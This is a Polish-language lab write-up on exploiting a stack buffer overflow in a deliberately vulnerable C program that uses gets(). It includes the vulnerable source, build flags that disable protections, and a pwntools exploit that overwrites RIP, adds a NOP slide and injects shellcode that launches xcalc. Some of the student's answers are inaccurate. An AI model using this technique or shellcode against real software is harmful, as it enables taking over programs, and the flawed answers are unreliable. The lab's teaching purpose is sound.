 ## Zad 1
**Przeprowadzanie ataku na podatną aplikację.**

Poniżej znajduje się kod aplikacji. należy stworzyć plik bof.c następnie wkleić do niego podany kod podany kod i zapisać.
```
// gcc bof.c -std=c99 -fno-stack-protector -z execstack -w -o bof

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
       puts("Nope, it's too long for me");
       exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    int v;
    printf("STACK IS HERE => %p\n", &v);
    ask_for_name();
    return 0;
}
```
![TworzeniePliku](https://user-images.githubusercontent.com/56591106/70852068-60be3b80-1e9d-11ea-9c25-1badd2b3c1c8.PNG)
Przy pomocy polecenia znajdującego się w pierwszej lini (`gcc bof.c -std=c99 -fno-stack-protector -z execstack -w -o bof`)
kompilujemy zapisany kod, a następnie używając polecenia `./bof` uruchamiamy program.
![Uruchamianie](https://user-images.githubusercontent.com/56591106/70852152-56e90800-1e9e-11ea-991e-5f0f15d46342.PNG)
Teraz sprawdzamy działanie programy dla wpisanych imon krótszych i dłuższych niż 12 zanków.
![Imiona](https://user-images.githubusercontent.com/56591106/70852176-c9f27e80-1e9e-11ea-8896-89d00d35f838.PNG)

1. **Jakie ostrzeżenie zgłasza kompilator przy próbie skompilowania programu?**

Program zgłasza ostrzeżenie u użyciu niebezpiecznej funkcji get

2. **Na czym polega błąd w programie?**

Wpisując odpowiedni znak możemy sprawić by program "myślał" że zakończyliśmy wpisywanie i nie wyrzucił błędu. - \x00aaaaa" 

3. **Dlaczego program zamyka się poprawnie pomimo przepełnienia bufora?**

Ponieważ funkcja get obsluguje przypadki gdy wpiszemy zbyt dlugą 


Kolejnym krokiem jest przygotowanie eksploita, wykorzystamy do tego język Python i bibliotekę pwntools,
Tworzymy plik exploit.py i umieszczamy w nim poniższy kod.
```
from pwn import *

# Uruchomienie programu
p = process("./bof");

# Na samym poczatku program wyswietla adres miejsca na stosie
# (pozycja zmiennej "v" w ramach ramki stosu funkcji "main")
# Wykorzystamy go pozniej w naszym exploicie
p.readuntil("STACK IS HERE => ")
stack_ptr = int(p.readuntil("\n").strip(), 16)
p.readuntil("What's your name?\n")
# Teraz program czeka na wejscie
# === Tu wprowadzamy modyfikacje ===

name = "Alicja"

# =================================
# Wysylamy dane
p.sendline(name)
# ...i odbieramy odpowiedz programu
print(p.readall())
```
Teraz uruchamiamy naszego exploita poleceniem `python2 exploit.py` 
Jeśli program się nie wykonuje prawdopodobnie biblioteka `pwn` nie jest zainstalowana możemy to zrobic poleceniem `pip2 install --user pwntools`.
Jeśli polecenie nie wykona się należy pierw zastosować się do instrukcji (https://docs.pwntools.com/en/stable/install.html),
a następnie użyć polecenia `pip2 install --user pwntools`.Program powninien poprawnie się wykonać.
![UruchamianieExploita](https://user-images.githubusercontent.com/56591106/70852463-f8258d80-1ea1-11ea-8941-e31a5b264b8d.PNG)

Podmieńmy teraz `name = "Alicja"` na:
```
name = "Alicja\x00aaaaa"
name += "a"*14
```

I ponownie wykonajmy program, tym razam program zakończył się wyjątkiem (SIGSEGV)
![Wyjątek](https://user-images.githubusercontent.com/56591106/70852581-47b88900-1ea3-11ea-977e-4f3f3dfd42fa.PNG)
Aby lepiej zrozumieć co się teraz wydazło możemy skorzystać z debuggera `GDB`, jeśli nie jest on zainstalowany robimy to poleceniem
`sudo apt-get install gdb`, podmieńmy wcześniejszy fragment na następujący kod:
```
name = "Alicja\x00aaaaa"
name += "a"*12
gdb.attach(p)
```
Uruchamiamy skrypt (python2 exploiy.py), urochomi nam się nowe okno GDB, wpisujemy w nim pierw polecenie `c` a nastepnie `info registers`
Możemy teraz przeglądać stany rejestrów w momencie zakończenia programu
![GDBaaaaa](https://user-images.githubusercontent.com/56591106/70852749-70418280-1ea5-11ea-9c0c-0564de9369cf.PNG)
![gdb](https://user-images.githubusercontent.com/56591106/71308383-4388f000-23fc-11ea-8b11-92c355009db3.PNG)

**4. Jaka jest wartość rejestrów RBP i RIP? Dlaczego?**

Możemy zauważyć że stan rejestru `RBP`=`0x6161616161616161` został on nadpisany wartością `aaaaaaaaaaaa`
Stan rejestru `RIP` =07fff6852ba90

**5. Dlaczego program zakończył działanie**

Ponieważ adres powrotu nie został nadpisanu

Skoro potrafimy wprowadzić do rejestru RIP dowolną wartość, możemy przekierować działanie programu w dowolne miejsce. 
Tym razem przekierumy wykonywanie kodu do funkcji main, którego adres wyświetlany 
jest na początku wykonywania programu. Adres ten umieścimy w miejscu, tam gdzie
znajduje się adres powrotu.
```
name = "Alicja\x00aaaaa"
name += "a"*8          # rbp
name += p64(stack_ptr) # rip
```

Wykorzystamy teraz instrukcje NOP Slide (jednobajtowa pusta instrukcja nie wywołująca żadnych skutków ubocznych) w telu przesunięcia w skaźnika
do miejsca gdzie umieścimy docelowy kod

```
name = "Alicja\x00aaaaa"
name += "a"*8          # rbp
name += p64(stack_ptr) # rip
# NOP slide
name += '\x90' * 128 # nasza pusta instrukcja
name += '\xCC' # instrukcja breakpointu, program przerwie działanie, uruchomi się debugger
gdb.attach(p)
```

Uruchommy ponownie skrypt, po uruchomieniu debuggera `GDB` wpisujemy następujace komendy `c`,`info proc mappings`,`x/16i $rip-8`,
widzimy teraz w którym momencje zatrzymał się nasz program, instrukcje które przed chwilą zostały wykonane(nop, int3)  i te które są kolejne na stosie(add).
![BreakPoint](https://user-images.githubusercontent.com/56591106/70853318-9880af80-1eac-11ea-9d7d-fa25f7e9f929.PNG)

**6. Pod jakim adresem zatrzymał się program? Pod jakim zakresem adresów znajduje się stos?**

Program zatrzymał się pod adresem wskazanym na screenie , 0x7ffe47b26fe1

**7. Jakie instrukcje znajdują się w sąsiedztwie miejsca, w którym zatrzymał się program?**

Instrukcje puste nop i instrukcje dodawania add.

**8. Wzów działanie programu poleceniem c. Dlaczego program się scrashował?**

Procesor dostał jakieś instrukcje add wyrwane z kontekstu, nie wiedział co z nimi zrobić, program się wysypał

Potrafimy już nadpisywać wartości rejestrów oraz stosu, jesteśmy więc w statnie przystąpić do wstrzyknięcia shellcodu
przejmujac kontrolę nad programem. Zmodyfikujmy naszego exploita, wstawiając do niego podany kod:
```
name = "Alicja\x00aaaaa"
name += "a"*8          # rbp
name += p64(stack_ptr) # rip
# NOP slide
name += '\x90' * 128

shellcode = unhex(
"48b82f7863616c6300005048b82f7573722f62696e"
"504889e74831c050574889e64831d248c7c03a3100"
"005048b8444953504c41593d504889e24831c05052"
"4889e248c7c03b0000000f0500")
name += shellcode
```
Teraz po uruchomieniu exploita wartości na sosie zostaną nadpisane po czym wykonają się instrukcje zapisane w shellcodzie 
zostatnie uruchomiony program `xcal`

**9. Wykonaj zrzut ekranu przedstawiający efekt wykonania exploita.**

![xCAL](https://user-images.githubusercontent.com/56591106/70853435-6e2ff180-1eae-11ea-8de9-81cb4afb1ec3.PNG)

**10. Dlaczego po zamknięciu okna kalkulatora program zakończył się poprawnie? (Podpowiedź: "xcalc" wywołany został przez shellcode za pomocą funkcji systemowej exec )**
Po uruchomieniu kalkulatora zaczynają się wykonwywać jego instrukcje, po zamknięciu wszystko się zamyka.




